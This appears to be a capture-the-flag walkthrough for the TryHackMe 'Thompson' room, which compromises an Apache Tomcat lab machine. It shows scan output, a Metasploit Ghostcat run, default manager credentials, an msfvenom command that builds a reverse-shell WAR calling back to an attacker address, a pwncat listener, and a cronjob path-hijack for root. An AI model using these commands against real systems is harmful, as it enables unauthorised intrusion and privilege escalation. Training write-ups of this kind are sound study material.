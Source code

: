 ```yaml
---
title: Walkthrough - Thompson
published: true
---
```


Security, Apache Tomcat. Boot2root machine for FIT and bsides guatemala CTF.

[https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

* * *

## Notes

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
```

```
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.48.147
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1472673232000"
Last-Modified: Wed, 31 Aug 2016 19:53:52 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

- `gobuster dir -u http://10.10.48.147:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 --no-error -x txt,php,html`

checking out `/manager/` we get a login screen, trying creds there doesnt work but clicking cancel give us a hint. 
- `<user username="tomcat" password="s3cret" roles="manager-gui"/>` we can use these to login.

Now that we have access we can upload a java .war shell and setup a `pwncat` listener to recieve it

- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.127.225 LPORT=6969 -f war -o shell.war`
- `pwncat-cs -lp 6969`

![0xskar](/assets/thompson01.png)

* * * 

## What is the user flag?

![0xskar](/assets/thompson02.png)

* * * 

## What is the root flag?

- root is running a cronjob `*  *    * * *   root    cd /home/jack && bash id.sh`

- `id.sh`

```
#!/bin/bash
id > test.txt
```

this script is just running id but it isnt using the intire path to id so if we create another script called id we can open up a root shell

![0xskar](/assets/thompson03.png)

* * * 

